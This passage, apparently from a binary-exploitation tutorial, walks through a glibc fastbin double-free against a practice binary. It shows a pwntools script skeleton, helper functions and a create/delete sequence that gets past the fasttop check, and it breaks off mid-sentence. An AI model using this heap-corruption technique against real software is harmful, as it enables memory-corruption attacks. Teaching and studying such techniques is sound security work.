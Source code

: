 ```c
void complete_level() {
    if(strcmp(admin, "admin\n")) {
        puts("Level Complete!");
        return;
    }
}
```

Checks you overwrote `admin` with `admin`, if you did, mission accomplished!

## Exploitation

There's literally no checks in place so we have a plethora of options available, but this tutorial is about using a double-free, so we'll use that.

### Setup

First let's make a skeleton of a script, along with some helper functions:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()


def create(name='a'):
    p.sendlineafter('>> ', '1')
    p.sendlineafter('Name: ', name)

def delete(idx):
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Index: ', str(idx))

def complete():
    p.sendlineafter('>> ', '3')
    print(p.recvline())
```

### Finding the Double-Free

As we know with the `fasttop` protection, we can't allocate once then free twice - we'll have to free once inbetween.

```python
create('yes')
create('yes')
delete(0)
delete(1)
delete(0)
```

Let's check the progression of the fastbin by adding a `pause()` after every `delete()`. We'll hook on with radare2 using
